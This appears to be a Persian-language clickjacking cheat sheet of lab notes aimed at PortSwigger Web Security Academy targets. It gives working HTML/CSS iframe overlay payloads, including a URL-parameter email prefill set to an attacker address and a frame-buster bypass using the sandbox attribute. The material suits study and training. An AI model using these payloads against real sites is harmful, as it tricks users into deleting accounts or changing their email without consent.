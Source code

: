 # Clickjacking

## Exploit
- **حمله مقدماتی با حفاظت CSRF Token**
  - در کد زیر پیکسل ها را تغییر می دهیم تا متن *Click me* روی کلید *Delete Account* بیفند ، برای این کار باید ابتدا opacity را برابر 0.1 قرار دهیم و پس از بدست آوردن موقعیت درست، آن را روی 0.0001 تنظیم کنیم:
```HTML
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: $opacity;
       z-index: 2;
   }
   div {
       position:absolute;
       top:300px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Test me</div>
<iframe src="https://ac721fc61e66ddc6c0325ed500ca00d4.web-security-academy.net/my-account"></iframe>
```
- **پر کردن خودکار فیلدهای فرم با استفاده از URL Param**
  - برای این منظور در کد فوق تگ iframe را به شکل زیر تغییر می دهیم:
```HTML
<iframe src="https://ac721fc61e66ddc6c0325ed500ca00d4.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```
- **بای پاس کردن Frame Buster**
  - در اینحالت اجازه iframe کردن سایت قربانی را نخواهیم داشت، برای دور زدن این محافظت attribute زیر را به تگ iframe اضافه می کنیم:
```HTML
<iframe sandbox="allow-forms" src="https://ac1f1fd41fe93c54c00a5216000e009e.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
``` 
- ی
